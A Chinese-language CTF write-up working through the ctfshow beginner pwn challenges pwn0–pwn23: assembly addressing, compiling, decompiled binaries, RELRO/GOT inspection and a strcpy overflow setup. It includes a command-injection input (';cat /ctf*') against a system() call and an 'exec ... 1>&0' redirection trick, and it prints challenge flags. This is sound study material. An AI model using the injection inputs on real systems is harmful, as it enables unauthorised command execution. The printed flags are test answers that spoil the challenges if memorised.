从零开始的pwn生活
pwn0
ssh ctfshow@pwn.challenge.ctf.show -p28184 # 123456ssh连接会有一段炫酷的画面

pwn1
IDA反编译一下附件

nc直接给flag
pwn2

太友好了 直接给了shell
pwn3


直接选6拿flag
pwn4

输入CTFshowPWN getshell
前置基础
pwn5
运行此文件，将得到的字符串以ctfshow{xxxxx}提交。
汇编代码
section .data
msg db "Welcome_to_CTFshow_PWN", 0
section .text
global _start
_start:
; 立即寻址方式
mov eax, 11 ; 将11赋值给eax
add eax, 114504 ; eax加上114504
sub eax, 1 ; eax减去1
; 寄存器寻址方式
mov ebx, 0x36d ; 将0x36d赋值给ebx
mov edx, ebx ; 将ebx的值赋值给edx
; 直接寻址方式
mov ecx, msg ; 将msg的地址赋值给ecx
; 寄存器间接寻址方式
mov esi, msg ; 将msg的地址赋值给esi
mov eax, [esi] ; 将esi所指向的地址的值赋值给eax
; 寄存器相对寻址方式
mov ecx, msg ; 将msg的地址赋值给ecx
add ecx, 4 ; 将ecx加上4
mov eax, [ecx] ; 将ecx所指向的地址的值赋值给eax
; 基址变址寻址方式
mov ecx, msg ; 将msg的地址赋值给ecx
mov edx, 2 ; 将2赋值给edx
mov eax, [ecx + edx*2] ; 将ecx+edx*2所指向的地址的值赋值给eax
; 相对基址变址寻址方式
mov ecx, msg ; 将msg的地址赋值给ecx
mov edx, 1 ; 将1赋值给edx
add ecx, 8 ; 将ecx加上8
mov eax, [ecx + edx*2 - 6] ; 将ecx+edx*2-6所指向的地址的值赋值给eax
; 输出字符串
mov eax, 4 ; 系统调用号4代表输出字符串
mov ebx, 1 ; 文件描述符1代表标准输出
mov ecx, msg ; 要输出的字符串的地址
mov edx, 22 ; 要输出的字符串的长度
int 0x80 ; 调用系统调用
; 退出程序
mov eax, 1 ; 系统调用号1代表退出程序
xor ebx, ebx ; 返回值为0s
int 0x80 ; 调用系统调用
使用NASM汇编器和ld链接器编译成可执行文件。
使用以下命令将其编译为对象文件
nasm -f elf pwn5_1.asm这将生成一个名为pwn5_1.o 的对象文件。接下来，使用以下命令将对象文件链接成可执行文件：
ld -m elf_i386 -s -o pwn5_1 pwn5_1.old 是 Linux 下的链接器，用于将一个或多个对象文件（.o 文件）和库文件链接成可执行文件或库文件。在你提供的命令中：
ld：链接器程序本身。-m elf_i386：指定生成的目标文件格式为elf_i386，这是为 32 位 Intel 架构计算机生成的 ELF（Executable and Linkable Format）格式。-s：这个选项告诉链接器在生成的可执行文件中剥离所有符号信息。这通常用于减少可执行文件的大小，并且可能用于安全目的，以防止某些类型的逆向工程。-o pwn5_1：指定输出文件的名称为pwn5_1。pwn5_1.o：这是要链接的对象文件。
这将生成一个名为 pwn5_1 的可执行文件 (事实上题目附件第二个就是)
运行pwn5_1或者pwn5_2即可
pwn6(立即寻址)
立即寻址方式结束后eax寄存器的值为？
立即寻址方式
mov eax, 11 ; 将11赋值给eax
add eax, 114504 ; eax加上114504
sub eax, 1 ; eax减去111+114504-1=114514
pwn7(寄存器寻址)
寄存器寻址方式结束后edx寄存器的值为？
寄存器寻址方式
mov ebx, 0x36d ; 将0x36d赋值给ebx
mov edx, ebx ; 将ebx的值赋值给edx0x36D
pwn8(直接寻址)
直接寻址方式结束后ecx寄存器的值为？
section .data
msg db "Welcome_to_CTFshow_PWN", 0
直接寻址方式
mov ecx, [msg] ; 将msg的地址赋值给ecx
0x80490E8
pwn9(寄存器间接寻址)
寄存器间接寻址方式结束后eax寄存器的值为？
寄存器间接寻址方式
mov esi, msg ; 将msg的地址赋值给esi
mov eax, [esi] ; 将esi所指向的地址的值赋值给eax

0x636C6557
pwn10(寄存器相对寻址)
寄存器相对寻址方式结束后eax寄存器的值为？
寄存器相对寻址方式
mov ecx, msg ; 将msg的地址赋值给ecx
add ecx, 4 ; 将ecx加上4
mov eax, [ecx] ; 将ecx所指向的地址的值赋值给eax
080490E8+4=080490EC “ome_to_CTFshow_PWN”
pwn11(基址变址寻址)
基址变址寻址方式结束后的eax寄存器的值为？
基址变址寻址方式
mov ecx, msg ; 将msg的地址赋值给ecx
mov edx, 2 ; 将2赋值给edx
mov eax, [ecx + edx*2] ; 将ecx+edx*2所指向的地址的值赋值给eax080490E8+2*2=080490EC “ome_to_CTFshow_PWN”
pwn12(相对基址变址寻址)
相对基址变址寻址方式结束后eax寄存器的值为？
相对基址变址寻址方式
mov ecx, msg ; 将msg的地址赋值给ecx
mov edx, 1 ; 将1赋值给edx
add ecx, 8 ; 将ecx加上8
mov eax, [ecx + edx*2 - 6] ; 将ecx+edx*2-6所指向的地址的值赋值给eax080490E8+8+1*2-6=080490EC “ome_to_CTFshow_PWN”
pwn13(gcc)
如何使用GCC？编译运行后即可获得flag
gcc flag.c -o flag
./flag
ctfshow{hOw_t0_us3_GCC?}pwn14
请你阅读以下源码，给定key为”CTFshow”，编译运行即可获得flag
#include <stdio.h>
#include <stdlib.h>
#define BUFFER_SIZE 1024
int main() {
FILE *fp;
unsigned char buffer[BUFFER_SIZE];
size_t n;
fp = fopen("pwn14_key", "rb");
if (fp == NULL) {
perror("Nothing here!");
return -1;
}
char output[BUFFER_SIZE * 9 + 12];
int offset = 0;
offset += sprintf(output + offset, "ctfshow{");
while ((n = fread(buffer, sizeof(unsigned char), BUFFER_SIZE, fp)) > 0) {
for (size_t i = 0; i < n; i++) {
for (int j = 7; j >= 0; j--) {
offset += sprintf(output + offset, "%d", (buffer[i] >> j) & 1);
}
if (i != n - 1) {
offset += sprintf(output + offset, "_");
}
}
if (!feof(fp)) {
offset += sprintf(output + offset, " ");
}
}
offset += sprintf(output + offset, "}");
printf("%s\n", output);
fclose(fp);
return 0;
}
程序打开名为 “pwn14_key” 的文件，以二进制（”rb”）模式进行读取。如果文件打开失败，将输出错误消息 “Nothing here!” 并返回 -1。
接下去就是通过循环将fp的值（也就是key的内容）逐个转为8位二进制数，通过”_”连接，用ctfshow{}包裹后存入output中
echo "CTFshow" > pwn14_key
gcc pwn14_flag.c -o pwn14
./pwn14
ctfshow{01000011_01010100_01000110_01110011_01101000_01101111_01110111_00001010}pwn15(nasm)
编译汇编代码到可执行文件，即可拿到flag
这段代码是一个使用 x86 汇编语言编写的程序，用于在标准输出上打印一串特定格式的字符串。要将这段代码编译为可执行文件，使用汇编器和链接器进行以下步骤：
section .data
str1 db "CTFshow",0
str2 db "_3@sy",0
str3 db "@ss3mb1y",0
str4 db "_1s",0
str5 db "ctfshow{"
str6 db "}"
section .text
global _start
_start:
mov eax, 4
mov ebx, 1
mov ecx, str5
mov edx, 8
int 0x80
mov eax, 4
mov ebx, 1
mov ecx, str3
mov edx, 8
int 0x80
mov eax, 4
mov ebx, 1
mov ecx, str4
mov edx, 3
int 0x80
mov eax, 4
mov ebx, 1
mov ecx, str2
mov edx, 5
int 0x80
mov eax, 4
mov ebx, 1
mov ecx, str6
mov edx, 1
int 0x80
mov eax, 1
xor ebx, ebx
int 0x80 nasm -f elf pwn15_flag.asm -o pwn15.o
ld -m elf_i386 -o pwn15 pwn15.o
./pwn15
ctfshow{@ss3mb1y_1s_3@sy}pwn16(gcc .s)
使用gcc将其编译为可执行文件
.s 文件是汇编语言源文件的一种常见扩展名。它包含了使用汇编语言编写的程序代码。汇编语言是一种低级编程语言，用于直接操作计算机的指令集架构。 .s 文件通常由汇编器（Assembler）处理，将其转换为可执行文件或目标文件。可以使用 gcc 命令直接编译汇编语言源文件（ .s 文件）并将其链接为可执行文件。 gcc 命令具有适用于多种语言的编译器驱动程序功能，它可以根据输入文件的扩展名自动选择适当的编译器和链接器
gcc pwn16_flag.s -o pwn16
./pwn16
ctfshow{daniuniuda}pwn17
IDA 关键源码
while ( 1 )
{
menu(v4, v3);
v5 = 0;
puts("\nEnter the command you want choose:(1.2.3.4 or 5)\n");
v3 = &v5;
__isoc99_scanf("%d", &v5);
switch ( (unsigned int)off_140C )
{
case 1u:
v4 = "id";
system("id");
break;
case 2u:
puts("Which directory?('/','./' or the directiry you want?)");
read(0, &buf, 0xAuLL);
v3 = (int *)&buf;
strcat(dest, &buf);
system(dest);
v4 = "Execution succeeded!";
puts("Execution succeeded!");
break;
case 3u:
sleep(1u);
puts("$cat /ctfshow_flag");
sleep(1u);
puts("ctfshow{");
sleep(2u);
puts("... ...");
sleep(3u);
puts("Your flag is ...");
sleep(5u);
puts("ctfshow{flag is not here!}");
sleep(0x14u);
puts("wtf?You haven't left yet?\nOk~ give you flag:\nflag is loading......");
sleep(0x1BF52u);
v4 = "cat /ctfshow_flag";
system("cat /ctfshow_flag");
break;
case 4u:
sleep(2u);
v4 = "su: Authentication failure";
puts("su: Authentication failure");
break;
case 5u:
puts("See you!");
exit(-1);
return;
default:
v4 = "command not found!";
puts("command not found!");
break;
}
}选项2 命令拼接 ;cat /ctf*
pwn18(>>追加)
IDA反编译
int __cdecl main(int argc, const char **argv, const char **envp)
{
int v4; // [rsp+4h] [rbp-Ch]
unsigned __int64 v5; // [rsp+8h] [rbp-8h]
v5 = __readfsqword(0x28u);
setvbuf(_bss_start, 0LL, 2, 0LL);
setvbuf(stdin, 0LL, 1, 0LL);
puts(s);
puts(asc_B10);
puts(asc_B90);
puts(asc_C20);
puts(asc_CB0);
puts(asc_D38);
puts(asc_DD0);
puts(" * ************************************* ");
puts(aClassifyCtfsho);
puts(" * Type : Linux_Security_Mechanisms ");
puts(" * Site : https://ctf.show/ ");
puts(" * Hint : Do you know redirect output ? ");
puts(" * ************************************* ");
puts("Which is the real flag?");
__isoc99_scanf("%d", &v4);
if ( v4 == 9 )
fake();
else
real();
system("cat /ctfshow_flag");
return 0;
}分别跟进fake()和real()
#fake()
int fake()
{
return system("echo 'flag is here'>>/ctfshow_flag");
}
#real()
int real()
{
return system("echo 'flag is here'>/ctfshow_flag");
}可以看到fake是>>追加 real是>覆盖写入
于是填9进入fake即可
pwn19(1>&0)
Hint: 关闭了输出流，一定是最安全的吗？
int __cdecl main(int argc, const char **argv, const char **envp)
{
char buf; // [rsp+10h] [rbp-30h]
unsigned __int64 v5; // [rsp+38h] [rbp-8h]
v5 = __readfsqword(0x28u);
setvbuf(_bss_start, 0LL, 2, 0LL);
setvbuf(stdin, 0LL, 1, 0LL);
puts(s);
puts(asc_BF0);
puts(asc_C70);
puts(asc_D00);
puts(asc_D90);
puts(asc_E18);
puts(asc_EB0);
puts(" * ************************************* ");
puts(aClassifyCtfsho);
puts(" * Type : Linux_Security_Mechanisms ");
puts(" * Site : https://ctf.show/ ");
puts(" * Hint : Turn off output, how to get flag? ");
puts(" * ************************************* ");
if ( fork() )
{
wait(0LL);
sleep(3u);
printf("flag is not here!", 0LL);
}
else
{
puts("give you a shell! now you need to get flag!");
fclose(_bss_start);
read(0, &buf, 0x20uLL);
system(&buf);
}
return 0;
}if (fork()) : 这里使用 fork() 函数创建一个子进程。父进程中， fork() 返回子进程的进程ID，所以进入if 语句块；子进程中， fork() 返回0，所以进入 else 语句块。
在父进程中：
wait(0LL) : 父进程通过 wait() 函数等待子进程的结束，以确保子进程执行完毕。
sleep(3u) : 父进程睡眠3秒钟。
printf(“flag is not here!”) : 输出提示信息，表明flag不在此处。
在子进程中：
puts(“give you a shell! now you need to get flag!”) : 输出提示信息，表示给予用户一个shell，让其获取flag。
fclose() : 关闭文件输出流。
read(0, &buf, 0x20uLL) : 从标准输入中读取用户输入的命令，并存储在 buf 中。
system(&buf) : 执行用户输入的命令。
我们可以使用了 exec 函数来执行 sh 命令，并使用 1>&0 来进行输出重定向。这个命令将标准输出重定向到标准输入，实际上就是将命令的输出发送到后续命令的输入。
具体来说， 1>&0 中的 1 表示标准输出， 0 表示标准输入。通过将标准输出重定向到标准输入，可以实现将命令的输出作为后续命令的输入。这样可以在执行 sh 命令后，进入一个交互式的Shell环境，可以在该环境中执行命令并与用户进行交互。
也可以直接exec cat /ctf* 1>&0 将 cat /ctf* 命令的输出发送到标准输入，实际上就是将命令的输出再次输出到屏幕上
pwn20(RELRO)
聊聊Linux动态链接中的PLT和GOT（１）——何谓PLT与GOT
聊聊Linux动态链接中的PLT和GOT（２）——延迟重定位
聊聊Linux动态链接中的PLT和GOT（３）——公共GOT表项

可以看到仅开启了NX保护，RELRO保护是完全关闭状态
这里先将一下RELRO保护：RELRO（RELocation Read-Only）是一种可选的二进制保护机制，用于增加程序的安全性。它主要通过限制和保护全局偏移表（Global Offset Table，简称 GOT）和过程链接表（Procedure Linkage Table，简称 PLT）的可写性来防止针对这些结构的攻击。
RELRO保护有三种状态：
- No RELRO：在这种状态下，GOT和PLT都是可写的，意味着攻击者可以修改这些表中的指
针，从而进行攻击。这是最弱的保护状态。 - Partial RELRO：在这种状态下，GOT的开头部分被设置为只读（RO），而剩余部分仍然可
写。这样可以防止一些简单的攻击，但仍存在一些漏洞。 - Full RELRO：在这种状态下，GOT和PLT都被设置为只读（RO）。这样做可以防止对这些结构
的修改，提供更强的保护。任何对这些表的修改都会导致程序异常终止。

objdump命令是Linux下的反汇编目标文件或者可执行文件的命令，它以一种可阅读的格式让你更多地了解二进制文件可能带有的附加信息。
- Linux下反汇编目标文件或者可执行文件。
- 查看静态库和动态库有哪些函数
查看一下表项地址
❯ readelf -S pwn20
There are 29 section headers, starting at offset 0x1878:
Section Headers:
[Nr] Name Type Address Offset
Size EntSize Flags Link Info Align
[ 0] NULL 0000000000000000 00000000
0000000000000000 0000000000000000 0 0 0
[ 1] .interp PROGBITS 0000000000400200 00000200
000000000000001c 0000000000000000 A 0 0 1
[ 2] .note.ABI-tag NOTE 000000000040021c 0000021c
0000000000000020 0000000000000000 A 0 0 4
[ 3] .note.gnu.bu[...] NOTE 000000000040023c 0000023c
0000000000000024 0000000000000000 A 0 0 4
[ 4] .gnu.hash GNU_HASH 0000000000400260 00000260
000000000000001c 0000000000000000 A 5 0 8
[ 5] .dynsym DYNSYM 0000000000400280 00000280
0000000000000090 0000000000000018 A 6 1 8
[ 6] .dynstr STRTAB 0000000000400310 00000310
000000000000004b 0000000000000000 A 0 0 1
[ 7] .gnu.version VERSYM 000000000040035c 0000035c
000000000000000c 0000000000000002 A 5 0 2
[ 8] .gnu.version_r VERNEED 0000000000400368 00000368
0000000000000020 0000000000000000 A 6 1 8
[ 9] .rela.dyn RELA 0000000000400388 00000388
0000000000000030 0000000000000018 A 5 0 8
[10] .rela.plt RELA 00000000004003b8 000003b8
0000000000000048 0000000000000018 AI 5 22 8
[11] .init PROGBITS 0000000000400400 00000400
0000000000000017 0000000000000000 AX 0 0 4
[12] .plt PROGBITS 0000000000400420 00000420
0000000000000040 0000000000000010 AX 0 0 16
[13] .text PROGBITS 0000000000400460 00000460
0000000000000252 0000000000000000 AX 0 0 16
[14] .fini PROGBITS 00000000004006b4 000006b4
0000000000000009 0000000000000000 AX 0 0 4
[15] .rodata PROGBITS 00000000004006c0 000006c0
000000000000053a 0000000000000000 A 0 0 8
[16] .eh_frame_hdr PROGBITS 0000000000400bfc 00000bfc
000000000000003c 0000000000000000 A 0 0 4
[17] .eh_frame PROGBITS 0000000000400c38 00000c38
0000000000000100 0000000000000000 A 0 0 8
[18] .init_array INIT_ARRAY 0000000000600d38 00000d38
0000000000000008 0000000000000008 WA 0 0 8
[19] .fini_array FINI_ARRAY 0000000000600d40 00000d40
0000000000000008 0000000000000008 WA 0 0 8
[20] .dynamic DYNAMIC 0000000000600d48 00000d48
00000000000001d0 0000000000000010 WA 6 0 8
[21] .got PROGBITS 0000000000600f18 00000f18
0000000000000010 0000000000000008 WA 0 0 8
[22] .got.plt PROGBITS 0000000000600f28 00000f28
0000000000000030 0000000000000008 WA 0 0 8
[23] .data PROGBITS 0000000000600f58 00000f58
0000000000000010 0000000000000000 WA 0 0 8
[24] .bss NOBITS 0000000000600f68 00000f68
0000000000000008 0000000000000000 WA 0 0 1
[25] .comment PROGBITS 0000000000000000 00000f68
0000000000000029 0000000000000001 MS 0 0 1
[26] .symtab SYMTAB 0000000000000000 00000f98
00000000000005e8 0000000000000018 27 43 8
[27] .strtab STRTAB 0000000000000000 00001580
00000000000001f1 0000000000000000 0 0 1
[28] .shstrtab STRTAB 0000000000000000 00001771
0000000000000103 0000000000000000 0 0 1
Key to Flags:
W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
L (link order), O (extra OS processing required), G (group), T (TLS),
C (compressed), x (unknown), o (OS specific), E (exclude),
D (mbind), l (large), p (processor specific)
readelf一般用于查看ELF格式的文件信息，常见的文件如在Linux上的可执行文件，动态库(.so)或者静态库(.a) 等包含ELF格式的文件
Ask:
提交ctfshow{【.got表与.got.plt是否可写(可写为1，不可写为0)】,【.got的地址】,【.got.plt的地址】}
例如 .got可写.got.plt表可写其地址为0x400820 0x8208820
最终flag为ctfshow{1_1_0x400820_0x8208820}
若某个表不存在，则无需写其对应地址
如不存在.got.plt表，则最终flag值为ctfshow{1_0_0x400820}
[21] .got PROGBITS 0000000000600f18 00000f18
0000000000000010 0000000000000008 WA 0 0 8
[22] .got.plt PROGBITS 0000000000600f28 00000f28
0000000000000030 0000000000000008 WA 0 0 8根据反编译后的代码进行测试
int __cdecl main(int argc, const char **argv, const char **envp)
{
_QWORD *v3; // rax
puts(s);
puts(asc_400740);
puts(asc_4007C0);
puts(asc_400850);
puts(asc_4008E0);
puts(asc_400968);
puts(asc_400A00);
puts(" * ************************************* ");
puts(aClassifyCtfsho);
puts(" * Type : Linux_Security_Mechanisms ");
puts(" * Site : https://ctf.show/ ");
puts(" * Hint : What is RELRO protection ? ");
puts(" * ************************************* ");
v3 = (_QWORD *)strtol(argv[1], 0LL, 16);
*v3 = 1380273234LL;
printf("RELRO: %x\n", (unsigned int)*v3, argv);
return 0;
}
ctfshow{1_1_0x600f18_0x600f28}
pwn21(Partial RELRO)

这次变成 Partial RELRO 了
Partial RELRO：一些段（包括.dynamic、.got等）在初始化后将会被标记为只读。在Ubuntu16.04（GCC-5.4.0）上默认开启Partial RELRO。
Full RELRO：除了Partial RELRO，延迟绑定将被禁止，所有的导入符号将在开始时被解析，.gotPlt段会被完全初始化为目标函数的最终地址，并被mprotect标记为只读但其实.got.plt会直接被合并到.got，也就看不到这段了。另外link_map和_dl_runtime_resolve的地址也不会被装入。开启Full RELRO会对程序启动时的性能造成一定的影响，但也只有这样才能防止攻击者篡改GOT。
当RELRO为Partial RELRO时，表示.got不可写而.got.plt可写。
当RELRO为FullRELRO时，表示.got不可写.got.plt也不可写。
当RELRO为No RELRO时，表示.got与.got.plt都可写。
❯ readelf -S pwn21
There are 29 section headers, starting at offset 0x1950:
Section Headers:
[Nr] Name Type Address Offset
Size EntSize Flags Link Info Align
[ 0] NULL 0000000000000000 00000000
0000000000000000 0000000000000000 0 0 0
[ 1] .interp PROGBITS 0000000000400238 00000238
000000000000001c 0000000000000000 A 0 0 1
[ 2] .note.ABI-tag NOTE 0000000000400254 00000254
0000000000000020 0000000000000000 A 0 0 4
[ 3] .note.gnu.bu[...] NOTE 0000000000400274 00000274
0000000000000024 0000000000000000 A 0 0 4
[ 4] .gnu.hash GNU_HASH 0000000000400298 00000298
000000000000001c 0000000000000000 A 5 0 8
[ 5] .dynsym DYNSYM 00000000004002b8 000002b8
0000000000000090 0000000000000018 A 6 1 8
[ 6] .dynstr STRTAB 0000000000400348 00000348
000000000000004b 0000000000000000 A 0 0 1
[ 7] .gnu.version VERSYM 0000000000400394 00000394
000000000000000c 0000000000000002 A 5 0 2
[ 8] .gnu.version_r VERNEED 00000000004003a0 000003a0
0000000000000020 0000000000000000 A 6 1 8
[ 9] .rela.dyn RELA 00000000004003c0 000003c0
0000000000000030 0000000000000018 A 5 0 8
[10] .rela.plt RELA 00000000004003f0 000003f0
0000000000000048 0000000000000018 AI 5 22 8
[11] .init PROGBITS 0000000000400438 00000438
0000000000000017 0000000000000000 AX 0 0 4
[12] .plt PROGBITS 0000000000400450 00000450
0000000000000040 0000000000000010 AX 0 0 16
[13] .text PROGBITS 0000000000400490 00000490
0000000000000252 0000000000000000 AX 0 0 16
[14] .fini PROGBITS 00000000004006e4 000006e4
0000000000000009 0000000000000000 AX 0 0 4
[15] .rodata PROGBITS 00000000004006f0 000006f0
000000000000053a 0000000000000000 A 0 0 8
[16] .eh_frame_hdr PROGBITS 0000000000400c2c 00000c2c
000000000000003c 0000000000000000 A 0 0 4
[17] .eh_frame PROGBITS 0000000000400c68 00000c68
0000000000000100 0000000000000000 A 0 0 8
[18] .init_array INIT_ARRAY 0000000000600e10 00000e10
0000000000000008 0000000000000008 WA 0 0 8
[19] .fini_array FINI_ARRAY 0000000000600e18 00000e18
0000000000000008 0000000000000008 WA 0 0 8
[20] .dynamic DYNAMIC 0000000000600e20 00000e20
00000000000001d0 0000000000000010 WA 6 0 8
[21] .got PROGBITS 0000000000600ff0 00000ff0
0000000000000010 0000000000000008 WA 0 0 8
[22] .got.plt PROGBITS 0000000000601000 00001000
0000000000000030 0000000000000008 WA 0 0 8
[23] .data PROGBITS 0000000000601030 00001030
0000000000000010 0000000000000000 WA 0 0 8
[24] .bss NOBITS 0000000000601040 00001040
0000000000000008 0000000000000000 WA 0 0 1
[25] .comment PROGBITS 0000000000000000 00001040
0000000000000029 0000000000000001 MS 0 0 1
[26] .symtab SYMTAB 0000000000000000 00001070
00000000000005e8 0000000000000018 27 43 8
[27] .strtab STRTAB 0000000000000000 00001658
00000000000001f1 0000000000000000 0 0 1
[28] .shstrtab STRTAB 0000000000000000 00001849
0000000000000103 0000000000000000 0 0 1
Key to Flags:
W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
L (link order), O (extra OS processing required), G (group), T (TLS),
C (compressed), x (unknown), o (OS specific), E (exclude),
D (mbind), l (large), p (processor specific)
ctfshow{0_1_0x600ff0_0x601000}
pwn22(Full RELRO)

.got和.got.plt都不可写
readelf -S pwn22
There are 28 section headers, starting at offset 0x1900:
Section Headers:
[Nr] Name Type Address Offset
Size EntSize Flags Link Info Align
[ 0] NULL 0000000000000000 00000000
0000000000000000 0000000000000000 0 0 0
[ 1] .interp PROGBITS 0000000000400238 00000238
000000000000001c 0000000000000000 A 0 0 1
[ 2] .note.ABI-tag NOTE 0000000000400254 00000254
0000000000000020 0000000000000000 A 0 0 4
[ 3] .note.gnu.bu[...] NOTE 0000000000400274 00000274
0000000000000024 0000000000000000 A 0 0 4
[ 4] .gnu.hash GNU_HASH 0000000000400298 00000298
000000000000001c 0000000000000000 A 5 0 8
[ 5] .dynsym DYNSYM 00000000004002b8 000002b8
0000000000000090 0000000000000018 A 6 1 8
[ 6] .dynstr STRTAB 0000000000400348 00000348
000000000000004b 0000000000000000 A 0 0 1
[ 7] .gnu.version VERSYM 0000000000400394 00000394
000000000000000c 0000000000000002 A 5 0 2
[ 8] .gnu.version_r VERNEED 00000000004003a0 000003a0
0000000000000020 0000000000000000 A 6 1 8
[ 9] .rela.dyn RELA 00000000004003c0 000003c0
0000000000000030 0000000000000018 A 5 0 8
[10] .rela.plt RELA 00000000004003f0 000003f0
0000000000000048 0000000000000018 AI 5 21 8
[11] .init PROGBITS 0000000000400438 00000438
0000000000000017 0000000000000000 AX 0 0 4
[12] .plt PROGBITS 0000000000400450 00000450
0000000000000040 0000000000000010 AX 0 0 16
[13] .text PROGBITS 0000000000400490 00000490
0000000000000252 0000000000000000 AX 0 0 16
[14] .fini PROGBITS 00000000004006e4 000006e4
0000000000000009 0000000000000000 AX 0 0 4
[15] .rodata PROGBITS 00000000004006f0 000006f0
000000000000053a 0000000000000000 A 0 0 8
[16] .eh_frame_hdr PROGBITS 0000000000400c2c 00000c2c
000000000000003c 0000000000000000 A 0 0 4
[17] .eh_frame PROGBITS 0000000000400c68 00000c68
0000000000000100 0000000000000000 A 0 0 8
[18] .init_array INIT_ARRAY 0000000000600dc0 00000dc0
0000000000000008 0000000000000008 WA 0 0 8
[19] .fini_array FINI_ARRAY 0000000000600dc8 00000dc8
0000000000000008 0000000000000008 WA 0 0 8
[20] .dynamic DYNAMIC 0000000000600dd0 00000dd0
00000000000001f0 0000000000000010 WA 6 0 8
[21] .got PROGBITS 0000000000600fc0 00000fc0
0000000000000040 0000000000000008 WA 0 0 8
[22] .data PROGBITS 0000000000601000 00001000
0000000000000010 0000000000000000 WA 0 0 8
[23] .bss NOBITS 0000000000601010 00001010
0000000000000008 0000000000000000 WA 0 0 1
[24] .comment PROGBITS 0000000000000000 00001010
0000000000000029 0000000000000001 MS 0 0 1
[25] .symtab SYMTAB 0000000000000000 00001040
00000000000005d0 0000000000000018 26 42 8
[26] .strtab STRTAB 0000000000000000 00001610
00000000000001f1 0000000000000000 0 0 1
[27] .shstrtab STRTAB 0000000000000000 00001801
00000000000000fa 0000000000000000 0 0 1
Key to Flags:
W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
L (link order), O (extra OS processing required), G (group), T (TLS),
C (compressed), x (unknown), o (OS specific), E (exclude),
D (mbind), l (large), p (processor specific)
ctfshow{0_0_0x600fc0}
pwn23(dest)

IDA 32位
int __cdecl main(int argc, const char **argv, const char **envp)
{
__gid_t v3; // eax
int v5; // [esp-Ch] [ebp-2Ch]
int v6; // [esp-8h] [ebp-28h]
int v7; // [esp-4h] [ebp-24h]
FILE *stream; // [esp+4h] [ebp-1Ch]
stream = fopen("/ctfshow_flag", (const char *)&unk_8048904);
if ( !stream )
{
puts("/ctfshow_flag: No such file or directory.");
exit(0);
}
fgets(flag, 64, stream);
signal(11, (__sighandler_t)sigsegv_handler);
v3 = getegid();
setresgid(v3, v3, v3, v5, v6, v7, v3);
puts((const char *)&unk_8048940);
puts((const char *)&unk_80489B4);
puts((const char *)&unk_8048A30);
puts((const char *)&unk_8048ABC);
puts((const char *)&unk_8048B4C);
puts((const char *)&unk_8048BD0);
puts((const char *)&unk_8048C64);
puts(" * ************************************* ");
puts((const char *)&unk_8048D28);
puts(" * Type : Linux_Security_Mechanisms ");
puts(" * Site : https://ctf.show/ ");
puts(" * Hint : No canary found ");
puts(" * ************************************* ");
puts("How to input ?");
if ( argc > 1 )
ctfshow((char *)argv[1]);
return 0;
}1.首先，程序尝试打开名为”/ctfshow_flag”的文件，并将文件指针赋值给 stream 变量。如果打开文件失败（文件不存在或无法访问），程序输出错误消息并终止。
2.如果成功打开文件，程序使用 fgets 函数从文件中读取最多64个字符到名为 flag 的缓冲区。
3.程序输出提示消息：”How to input ?”
4.如果程序运行时传入了命令行参数（ argc 大于1），则调用 ctfshow 函数，并将第一个命令行参数作为参数传递给该函数。
跟进ctfshow函数
char *__cdecl ctfshow(char *src)
{
char dest; // [esp+Ah] [ebp-3Eh]
return strcpy(&dest, src);
}5.ctfshow 函数很简单，它接受一个字符串参数 src ，并使用 strcpy 函数将该字符串复制到名为 dest 的缓冲区中。然后，它返回指向 dest 缓冲区的指针。
